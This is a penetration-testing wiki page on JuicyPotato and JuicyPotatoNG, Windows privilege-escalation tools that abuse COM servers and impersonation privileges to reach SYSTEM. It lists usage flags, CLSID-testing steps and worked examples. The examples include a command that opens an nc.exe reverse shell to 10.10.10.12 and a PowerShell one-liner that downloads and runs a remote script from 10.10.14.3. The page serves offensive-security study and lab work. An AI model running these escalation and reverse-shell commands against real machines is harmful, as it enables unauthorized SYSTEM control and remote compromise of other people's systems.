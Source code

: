 # JuicyPotato

> [!WARNING] > JuicyPotato is legacy. It generally works on Windows versions up to Windows 10 1803 / Windows Server 2016. Microsoft changes shipped starting in Windows 10 1809 / Server 2019 broke the original technique. For those builds and newer, consider modern alternatives such as PrintSpoofer, RoguePotato, SharpEfsPotato/EfsPotato, GodPotato and others. See the page below for up-to-date options and usage.

[[roguepotato-and-printspoofer.md]]

## Juicy Potato (abusing the golden privileges) 

_A sugared version of_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, with a bit of juice, i.e. **another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM**_

#### You can download juicypotato from [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Compatibility quick notes

- Works reliably up to Windows 10 1803 and Windows Server 2016 when the current context has SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege.
- Broken by Microsoft hardening in Windows 10 1809 / Windows Server 2019 and later. Prefer the alternatives linked above for those builds.

### Summary 

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) and its [variants](https://github.com/decoder-it/lonelypotato) leverages the privilege escalation chain based on [`BITS`](<https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799(v=vs.85).aspx>) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) having the MiTM listener on `127.0.0.1:6666` and when you have `SeImpersonate` or `SeAssignPrimaryToken` privileges. During a Windows build review we found a setup where `BITS` was intentionally disabled and port `6666` was taken.

We decided to weaponize [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Say hello to Juicy Potato**.

> For the theory, see [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) and follow the chain of links and references.

We discovered that, other than `BITS` there are a several COM servers we can abuse. They just need to:

1. be instantiable by the current user, normally a “service user” which has impersonation privileges
2. implement the `IMarshal` interface
3. run as an elevated user (SYSTEM, Administrator, …)

After some testing we obtained and tested an extensive list of [interesting CLSID’s](http://ohpe.it/juicy-potato/CLSID/) on several Windows versions.

### Juicy details 

JuicyPotato allows you to:

- **Target CLSID** _pick any CLSID you want._ [_Here_](http://ohpe.it/juicy-potato/CLSID/) _you can find the list organized by OS._
- **COM Listening port** _define COM listening port you prefer (instead of the marshalled hardcoded 6666)_
- **COM Listening IP address** _bind the server on any IP_
- **Process creation mode** _depending on the impersonated user’s privileges you can choose from:_
  - `CreateProcessWithToken` (needs `SeImpersonate`)
  - `CreateProcessAsUser` (needs `SeAssignPrimaryToken`)
  - `both`
- **Process to launch** _launch an executable or script if the exploitation succeeds_
- **Process Argument** _customize the launched process arguments_
- **RPC Server address** _for a stealthy approach you can authenticate to an external RPC server_
- **RPC Server port** _useful if you want to authenticate to an external server and firewall is blocking port `135`…_
- **TEST mode** _mainly for testing purposes, i.e. testing CLSIDs. It creates the DCOM and prints the user of token. See_ [_here for testing_](http://ohpe.it/juicy-potato/Test/)

### Usage 

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```

### Final thoughts 

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

If the user has `SeImpersonate` or `SeAssignPrimaryToken` privileges then you are **SYSTEM**.

It’s nearly impossible to prevent the abuse of all these COM Servers. You could think about modifying the permissions of these objects via `DCOMCNFG` but good luck, this is gonna be challenging.

The actual solution is to protect sensitive accounts and applications which run under the `* SERVICE` accounts. Stopping `DCOM` would certainly inhibit this exploit but could have a serious impact on the underlying OS.

From: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## JuicyPotatoNG (2022+)

JuicyPotatoNG re-introduces a JuicyPotato-style local privilege escalation on modern Windows by combining:
- DCOM OXID resolution to a local RPC server on a chosen port, avoiding the old hardcoded 127.0.0.1:6666 listener.
- An SSPI hook to capture and impersonate the inbound SYSTEM authentication without requiring RpcImpersonateClient, which also enables CreateProcessAsUser when only SeAssignPrimaryTokenPrivilege is present.
- Tricks to satisfy DCOM activation constraints (e.g., the former INTERACTIVE-group requirement when targeting PrintNotify / ActiveX Installer Service classes).

Important notes (evolving behavior across builds):
- September 2022: Initial technique worked on supported Windows 10/11 and Server targets using the “INTERACTIVE trick”.
- January 2023 update from the authors: Microsoft later blocked the INTERACTIVE trick. A different CLSID ({A9819296-E5B3-4E67-8226-5E72CE9E1FB7}) restores exploitation but only on Windows 11 / Server 2022 according to their post.

Basic usage (more flags in the help):

```
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami"  
# Useful helpers:  
#  -b  Bruteforce all CLSIDs (testing only; spawns many processes)  
#  -s  Scan for a COM port not filtered by Windows Defender Firewall  
#  -i  Interactive console (only with CreateProcessAsUser)
```

If you’re targeting Windows 10 1809 / Server 2019 where classic JuicyPotato is patched, prefer the alternatives linked at the top (RoguePotato, PrintSpoofer, EfsPotato/GodPotato, etc.). NG may be situational depending on build and service state.

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell

```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```

### Powershell rev

```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```

### Launch a new CMD (if you have RDP access)

![[../../images/image (300).png]]

## CLSID Problems

Oftentimes, the default CLSID that JuicyPotato uses **doesn't work** and the exploit fails. Usually, it takes multiple attempts to find a **working CLSID**. To get a list of CLSIDs to try for a specific operating system, you should visit this page:

- [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

### **Checking CLSIDs**

First, you will need some executables apart from juicypotato.exe.

Download [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) and load it into your PS session, and download and execute [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). That script will create a list of possible CLSIDs to test.

Then download [test_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat)(change the path to the CLSID list and to the juicypotato executable) and execute it. It will start trying every CLSID, and **when the port number changes, it will mean that the CLSID worked**.

**Check** the working CLSIDs **using the parameter -c**

## References

- [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)
- [Giving JuicyPotato a second chance: JuicyPotatoNG (decoder.it)](https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)

